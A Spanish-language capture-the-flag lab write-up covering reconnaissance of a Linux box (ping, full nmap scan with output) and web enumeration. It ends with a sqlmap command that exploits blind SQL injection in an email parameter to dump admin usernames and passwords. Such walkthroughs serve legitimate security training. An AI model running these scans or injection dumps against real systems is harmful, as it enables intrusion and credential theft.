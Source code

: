 #Easy #fuzzing #fuzzing #nmap #Linux 
### Ping
```python
ping -c 1 10.10.11.18
PING 10.10.11.18 (10.10.11.18) 56(84) bytes of data.
64 bytes from 10.10.11.18: icmp_seq=1 ttl=63 time=70.9 ms

--- 10.10.11.18 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 70.927/70.927/70.927/0.000 ms
```

### TTL 63=Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -Pn 10.10.11.18 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 19:43 EDT
Nmap scan report for 10.10.11.18
Host is up (0.069s latency).
Not shown: 65527 closed tcp ports (reset), 6 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```


### Enumeración del puerto 80 (http)

![[Pasted image 20240415164823.png]]

podemos registrarnos en la pagina web pero no tenemos mucha información
![[Pasted image 20240415165024.png]]

si intentamos cambiar la contraseña podemos notar que nos da como resultado una notificación donde podemos ver nuestro correo
![[Pasted image 20240415165125.png]]

### sqlmap
después de hacer un montón de pruebas hemos descubierto que el parámetro mail es vulnerable a sqli blind por lo que vamos a comprobarla con 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump
```

![[Pasted image 20240415193303.png]]

![[Pasted image 20240415201751.png]]
###### con este ataque podemos determinar que es una blind sqli por lo cual el ataque puede tardar bastante. 


![[Pasted image 20240418101705.png]]